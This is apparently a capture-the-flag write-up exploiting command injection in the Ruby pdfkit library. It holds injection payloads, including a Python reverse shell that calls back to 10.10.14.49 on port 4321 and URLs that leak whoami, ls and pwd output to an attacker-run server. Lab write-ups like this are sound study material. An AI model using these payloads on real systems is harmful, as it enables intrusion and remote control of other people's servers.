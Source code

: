 ### Method 1

- [https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

    I try to run `sleep` command (**blind-command-injection**)

    ```
    http://10.10.14.49/?name=#{'%20`sleep 5`'}
    ```

    the website waits 5 seconds after sending HTTP GET request, it really works!

    I can try to put a reverse shell and see what happens

    ```
    http://10.10.14.49/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.49",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'}
    ```

    Bingo! Now I'm the `ruby` user

<br><br>

### Method 2
    
- [https://github.com/advisories/GHSA-rhwx-hjx2-x4qr](https://github.com/advisories/GHSA-rhwx-hjx2-x4qr)

    ```
    Package             Affected versions       Patched versions
    pdfkit (RubyGems)       < 0.8.7.2               0.8.7.2
    ```

    exploit: [https://github.com/pdfkit/pdfkit/issues/517](https://github.com/pdfkit/pdfkit/issues/517) &#8594; it's all URL encoded, thus breaking bash commands
    
    `http://10.10.14.49:8000/?home=$HOME`
    ```html
    Directory listing for /?home=/home/ruby
    ```

    `http://10.10.14.49:8000/?whoami=$(whoami)`
    ```html
    Directory listing for /?whoami=ruby
    ```

    `http://10.10.14.49:8000/?ls=$(ls)`
    ```html
    Directory listing for /?ls=app config config.ru Gemfile Gemfile.lock pdf public
    ```

    `http://10.10.14.49:8000/?pwd=$(pwd)`
    ```html
    Directory listing for /?pwd=/var/www/pdfapp
    ```
